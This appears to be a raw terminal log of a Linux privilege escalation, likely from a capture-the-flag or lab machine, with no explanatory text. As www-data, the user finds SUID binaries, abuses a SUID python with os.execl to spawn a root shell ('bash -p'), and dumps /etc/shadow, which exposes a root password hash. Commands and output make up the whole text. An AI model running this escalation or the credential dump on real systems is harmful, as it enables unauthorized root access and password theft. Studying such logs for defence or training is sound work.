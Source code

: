 ```
-rwsr-sr-x 1 root   root     3665768 2020-08-04 17:47:25.376629497 +0000 python
-rwxr-xr-x 1 root   root      223304 2020-08-04 17:39:14.567473167 +0000 curl
lrwxrwxrwx 1 root   root          27 2020-08-04 16:24:41.623827618 +0000 phar.phar -> /etc/alternatives/phar.phar
lrwxrwxrwx 1 root   root          22 2020-08-04 16:24:41.611827688 +0000 phar -> /etc/alternatives/phar
lrwxrwxrwx 1 root   root          21 2020-08-04 16:24:41.591827806 +0000 php -> /etc/alternatives/php
bash-4.4$ find / -type f -perm 4755 2>/dev/null | grep -v 'snap'
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
bash-4.4$ which python
/usr/bin/python
bash-4.4$ python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.4# cat /etc/shadow
root:$6$5osB44J2$24WV3zAR1FTqEq3f2kSqrigUgyDmKucU8rwHvbOJWxIoWSlHbVHV1Ug1eOHqidieZWDU3Y5V3cimChun2JYNw1:18478:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
```